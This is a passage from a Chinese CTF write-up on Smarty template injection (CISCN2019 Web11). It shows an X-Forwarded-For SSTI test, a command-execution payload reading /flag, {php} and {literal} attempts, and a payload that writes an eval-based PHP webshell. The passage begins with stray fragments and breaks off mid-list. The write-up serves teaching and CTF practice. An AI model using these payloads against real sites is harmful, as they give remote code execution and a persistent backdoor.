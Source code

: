 public function clearConfig($varname = null)
{
    return Smarty_Internal_Extension_Config::clearConfig($this, $varname);
}

因此我们可以构造payload写个webshell:

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}

CTF地址：https://buuoj.cn/challenges（CISCN2019华东南赛区Web11）

题目模拟了一个获取IP的API，并且可以在最下方看到 "Build With Smarty !" 可以确定页面使用的是Smarty模板引擎。

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820231808793-180982707.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820231808793-180982707.png)

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232249193-1694257286.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232249193-1694257286.png)

在页面的右上角发现了IP，但是题目中显示的API的URL由于环境的原因无法使用，猜测这个IP受X-Forwarded-For头控制。

将XFF头改为 {6*7} 会发现该位置的值变为了42，便可以确定这里存在SSTI。

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232629595-1646272720.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232629595-1646272720.png)

直接构造 {system('cat /flag')} 即可得到flag

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232839480-729397105.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820232839480-729397105.png)

**1. {$smarty.version}**

{$smarty.version}  #获取smarty的版本号

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233050238-1942906786.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233050238-1942906786.png)

**2. {php}{/php}**

{php}phpinfo();{/php}  #执行相应的php代码

Smarty支持使用 {php}{/php} 标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。但就该题目而言，使用{php}{/php}标签会报错：

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233259128-196602210.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233259128-196602210.png)

因为在Smarty3版本中已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**3. {literal}**

<script language="php">phpinfo();</script>   

这个地方借助了 {literal} 这个标签，因为 {literal} 可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。但是这种写法只适用于php5环境，这道ctf使用的是php7，所以依然失败

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233719367-1535357026.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200820233719367-1535357026.png)

**4.** **getstreamvariable**
